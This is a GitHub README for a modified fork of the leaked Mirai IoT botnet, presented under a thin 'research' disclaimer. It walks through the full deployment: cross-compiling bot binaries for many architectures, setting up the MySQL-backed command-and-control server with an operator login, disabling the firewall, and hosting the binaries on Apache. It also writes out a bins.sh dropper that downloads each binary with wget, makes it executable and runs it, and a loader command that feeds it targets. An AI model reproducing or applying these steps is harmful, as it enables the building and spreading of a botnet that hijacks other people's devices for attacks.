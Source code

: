 # Mirai BotNet to Tashiro(未来砲)
<!--

  ,～（（((((((～～､
  (  ＿（（ (((＿　)
  |/　~^^＼)／^^~ヽ|
  |　　＿　《　＿   |
 (|-(_//_)-(_//_)-|）
  |　　 　厶､　　   |     ／￣￣￣￣￣￣￣￣￣￣￣
  ＼   ||||||||　／　　＜  Mirai BotNet to Tashiro.
    ＼_________／       ＼＿＿＿＿＿＿＿＿＿＿＿

-->
Leaked Linux.Mirai Source Code for Research/IoT Development Purposes

Uploaded for research purposes and so we can develop IoT and such.

Modified from https://github.com/jgamblin/Mirai-Source-Code

I was referring to this for a moment.<br />
https://gist.github.com/ppoffice/86beb0f90de5aeec75aabd517ebc5e43

## Requirements
* To be able to use vi.
* Do not run in WSL.(I tried, but I couldn't use mysql or compile it.)
* It is recommended that Linux be used as the operating system.

## Credits
[Anna-senpai](https://hackforums.net/showthread.php?tid=5420472)

## Disclaimer
This repository is for academic purposes, the use of this software is your
responsibility.

## Warning
The [zip file](https://www.virustotal.com/en/file/f10667215040e87dae62dd48a5405b3b1b0fe7dbbfbf790d5300f3cd54893333/analysis/1477822491/) for this repo is being identified by some AV programs as malware.  Please take caution.

## Install

※If you are not logged in as root, be sure to add sudo and follow the installation instructions below.<br />
※If you are unable to install the software, please refer to the following URL for installation.<br />
https://programmer.group/mirai-botnet-environment-setup-steps.html <br />
https://github.com/ruCyberPoison/-Mirai-Iot-BotNet/blob/master/TUTORIAL.txt

```
# sudo apt-get install git gcc golang electric-fence mysql-server mysql-client
```
If you are using debian, you cannot install mysql as it is, so please install it in the following way.
```
# wget https://dev.mysql.com/get/mysql-apt-config_0.8.22-1_all.deb
# sudo dpkg -i mysql-apt-config_0.8.22-1_all.deb
# sudo apt update && sudo apt install mysql-server mysql-client
```
After installing the dependency tools, follow the steps below.
```
# git clone https://github.com/ware255/Mirai-Source-Code-plus.git
# cd Mirai-Source-Code-plus/scripts
```
Cross Compile
```
# chmod +x cross-compile.sh
# sudo ./cross-compile.sh
```
Enter "n" here.
```
Install mysql-server and mysql-client (y/n)? n
```
Edit .bashrc
```
# vi ~/.bashrc
```
Add the following string to the last line
```
export PATH=$PATH:/etc/xcompile/armv4l/bin
export PATH=$PATH:/etc/xcompile/armv5l/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin
export PATH=$PATH:/etc/xcompile/i586/bin
export PATH=$PATH:/etc/xcompile/m68k/bin
export PATH=$PATH:/etc/xcompile/mips/bin
export PATH=$PATH:/etc/xcompile/mipsel/bin
export PATH=$PATH:/etc/xcompile/powerpc/bin
export PATH=$PATH:/etc/xcompile/powerpc-440fp/bin
export PATH=$PATH:/etc/xcompile/sh4/bin
export PATH=$PATH:/etc/xcompile/sparc/bin

export GOPATH=$HOME/go
```
After adding and saving, enter the following command
```
# mkdir ~/go
# source ~/.bashrc
```
In mirai folder, run build.sh script
```
# cd ../mirai
# chmod +x build.sh
# ./build.sh release telnet
```
Get golang requiremnts
```
# go get github.com/go-sql-driver/mysql
# go get github.com/mattn/go-shellwords
```
If you have iptbales/ip6tables or any firewall install disable it.
```
# sudo service iptables stop
```
Database setup<br />
※It will ask you to set a password, make sure you remember this.
```
# sudo /usr/bin/mysql_secure_installation
```
Go to `cd cnc/`, open main.go and replace the root password you just entered with MySQL_Password.
```
const DatabaseAddr string   = "127.0.0.1:3306"
const DatabaseUser string   = "root"
const DatabasePass string   = "MySQL_Password"
const DatabaseTable string  = "mirai"
```
Add users to mysql.
```
# cd ../../scripts
# sudo mysql -uroot -pMySQL_Password
> INSERT INTO users VALUES (NULL, 'tashiro', 'mystrongestpassword', 0, 0, 0, 0, -1, 1, 30, '');
> exit
# sudo service mysql restart
```
Once you restart the mysql server, go to your debug folder ./mirai/release, you will seen a compiled file named cnc execute it.
```
# cd ../mirai/release
# sudo ./cnc
```
Open a new window and execute the following command
```
# cd ..
# cp prompt.txt release/
```
Then, use telnet to connect to your IP address.<br />
The following is an example of running the telnet command.
```
# telnet 192.168.19.19
```
OK, well use this user name and password to login in this case the username is : `tashiro` and the password is : `mystrongestpassword`

again in you server Terminal some like Putty or mobaxterm.<br />
Go to this directory ../Mirai-Source-Code/mirai/release
```
# cd ./Mirai-Source-Code/mirai/release
```
Next, install and start the Apache server.
```
# sudo apt install apache2
# sudo service apache2 start
```
copy the mirai files at the apache source.
```
# sudo cp mirai.* /var/www/html
```
well we need to delete the index to show the index file directory on browser.
```
# rm /var/www/html/index.html
```
Then open a browser and enter http://localhost or your IP address and see if the file appears.

Go to /var/www/html and create bins.sh.
```
# cd /var/www/html
# touch bins.sh
```
Next, open `bins.sh` and write the following (replace `IP OR HOSTNAME:80` with the vps IP you have or your own IP address).
```
#!/bin/sh

# Edit
WEBSERVER="IP OR HOSTNAME:80"
# Stop editing now 

BINARIES="mirai.arm mirai.m68k miraint.x86 miraint.spc miraint.sh4 miraint.ppc miraint.mpsl miraint.mips miraint.arm7 miraint.arm5n miraint.arm"

for Binary in $BINARIES; do
	wget http://$WEBSERVER/$Binary -O dvrHelper
	chmod 777 dvrHelper
	./dvrHelper
done

rm -f "
```
If you have vps, please upload /var/www/html using sftp.<br />
※If you do not have a vps, you may leave it as is.<br />
Please check by yourself if it really uploaded, I don't know much about vps or anything like that.

Now restart the Apache server.
```
# sudo service apache2 restart
```
Next, to build the loader, go to Mirai-Source-Code-plus/loader/ and build the loader.<br />
※Omit commands to move.
```
# chmod +x build.sh
# ./build.sh
```
and after than type this code but put you filename here --> file.txt before paste
```
# cat file.txt | ./loader wget http://dyn.com
```
This completes the installation. :)<br />
Thank you for your hard work. Take a break and have a cup of coffee or something.

